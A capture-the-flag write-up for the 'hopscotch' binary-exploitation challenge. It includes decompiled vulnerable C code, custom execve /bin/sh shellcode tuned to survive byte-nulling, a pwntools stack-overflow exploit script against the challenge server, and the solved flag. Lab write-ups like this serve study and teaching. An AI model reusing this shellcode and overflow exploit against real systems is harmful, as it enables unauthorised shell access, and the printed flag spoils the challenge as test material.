 # Hopscotch

One childhood pasttime I never got to experience much is Hopscotch, a game  where you jump and hop over boxes to reach to the goal.

Won't you play with me?

`nc chals.whitehacks.ctf.sg 20401`

**Files**: [hopscotch](https://api.whitehacks.ctf.sg/file?id=ckltb09fg0ss0080733boc0w3&name=hopscotch)

```sh
$ checksec hopscotch
[*] 'hopscotch'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO     # !
    Stack:    No canary found   # !
    NX:       NX disabled       # ! 
    PIE:      No PIE (0x400000) # !
    RWX:      Has RWX segments  # ! 
```

Yes, that's _everything_ red.

## solving

`main()` is very simple:

```c
int main() {
  char s[48]; // [rsp+0h] [rbp-40h] BYREF
  int canary; // [rsp+30h] [rbp-10h]
  unsigned int i; // [rsp+3Ch] [rbp-4h]

  setup_IO();
  canary = 1337;
  printf("Buffer: %p\n", s);
  printf("Enter input: ");
  fgets(s, 96, stdin);
  for ( i = 8; i <= 0x2F; i += 12 )
    s[i] = 0;
  if ( canary != 1337 ) {
    puts("Bad canary!");
    exit(-1);
  }
  return 0;
}
```

We're given a stack leak and a buffer overflow with NX off. The obvious answer here is to just run `/bin/sh` shellcode, but the program has a for-loop that removes a few bytes. I edited [this](https://systemoverlord.com/2016/04/27/even-shorter-shellcode.html) shellcode a little bit to get here:

```asm
0:  31 f6                   xor    esi,esi
2:  56                      push   rsi
3:  90                      nop
4:  90                      nop
5:  90                      nop
6:  48 bb 00 62 69 6e 2f    movabs rbx,0x68732f2f6e696200
d:  2f 73 68
10: 48 81 c3 2f 00 00 00    add    rbx,0x2f
17: 53                      push   rbx
18: 54                      push   rsp
19: 5f                      pop    rdi
1a: f7 ee                   imul   esi
1c: b0 3b                   mov    al,0x3b
1e: 0f 05                   syscall 
```
Other teams had smarter solutions. Instead of my bulky `add rbx` instruction, you could use a `mov al, 0x0` (`\xb0\x00`) to get a cheap almost-NOP<sup>1</sup>. Another solution skipped the prototypical 22-byte `/bin/sh` shellcode altogether, using simple `mov`s to reach a solution:

![](lol.png)

The intended solution, as stated by the challenge author, was to use a `jmp 0x2` (`\xeb\x00`) instruction as a 2-byte NOP with a nul-byte inside. 

In any case, here was my script:
```python
from pwnscripts import *
context.binary = 'hopscotch'
r = remote('chals.whitehacks.ctf.sg', 20401)
context.log_level = 'debug'
stack_leak = unpack_hex(r.recvline())
assem = b'\x31\xF6\x56\x90\x90\x90\x48\xBB\x00\x62\x69\x6E\x2F\x2F\x73\x68\x48\x81\xC3\x2F\x00\x00\x00\x53\x54\x5F\xF7\xEE\xB0\x3B\x0F\x05'

payload = fit({
    0x00: assem,
    0x30: pack(1337),
    0x48: stack_leak,
})
r.sendlineafter('input: ', payload)
r.interactive()
```

## Flag

`WH2021{8a11f6615742a_h0p_st3p_jUMp_Dr3w_Dr@w_dr@wN}`

1. This was from the winning team.
